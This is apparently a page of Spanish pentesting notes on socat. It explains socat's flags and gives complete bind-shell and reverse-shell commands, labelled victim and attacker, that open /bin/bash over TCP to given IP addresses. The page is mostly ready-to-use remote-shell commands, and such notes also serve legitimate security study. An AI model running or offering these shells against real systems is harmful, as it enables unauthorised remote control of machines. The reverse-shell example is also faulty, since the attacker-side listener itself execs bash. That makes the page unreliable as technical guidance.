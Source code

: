 ### 3. **Explicación de flags socat**

* `TCP-LISTEN:<port>`: escucha conexiones TCP en puerto.
* `reuseaddr`: permite reusar puerto sin espera.
* `fork`: crea proceso hijo para cada conexión.
* `EXEC:/bin/bash`: ejecuta shell.
* `pty`: asigna pseudo-terminal para shell interactiva.
* `stderr`: conecta salida de errores.
* `setsid`: ejecuta en nueva sesión.
* `sigint`: permite enviar señal CTRL-C.
* `sane`: configura terminal en modo saneable.

---

### 4. **Notas**

* Usar puertos libres y no bloqueados.
* Asegurar que firewall permite conexiones.
* Socat genera shells más estables y completas que netcat.
* Estabilizar shell no suele ser necesario si se usa `pty`.

---

### 5. **Ejemplo completo bind shell**

Víctima:

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

Atacante:

```bash
nc 10.201.17.102 4444
```

---

### 6. **Ejemplo completo reverse shell**

Atacante:

```bash
socat -d -d TCP-LISTEN:5555,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

Víctima:

```bash
socat TCP:10.2.2.22:5555 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```


---
---
